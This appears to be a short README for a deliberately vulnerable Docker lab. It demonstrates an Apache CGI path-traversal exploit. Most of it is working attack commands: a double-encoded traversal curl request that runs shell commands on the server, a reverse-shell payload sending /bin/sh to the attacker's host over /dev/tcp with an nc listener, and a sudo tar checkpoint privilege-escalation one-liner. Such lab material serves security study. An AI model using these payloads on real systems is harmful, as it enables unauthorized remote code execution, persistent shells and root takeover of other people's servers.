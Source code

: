 # Build and start the vulnerable docker :
`chmod +x ./build.sh`
`./build.sh`

# Obtain a shell from the docker :
`docker exec -it apache-vuln /bin/bash`

# RCE via Apache server :
`curl -s --path-as-is 'http://<IP>:4444/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type: text/plain; echo; whoami'`

# Reverse shell via Apache Server :
## Step 1 :
  On your host, set up a listener :
`nc -nvlp <port>`
## Step2 :
  On your host, use curl to execute code on the Apache Server :
`curl -s --path-as-is 'http://<IP>:4444/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type: text/plain; echo; bash -c "/bin/sh -i >& /dev/tcp/<your host IP>/<your listener port> 0>&1"'`

# Privesc
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

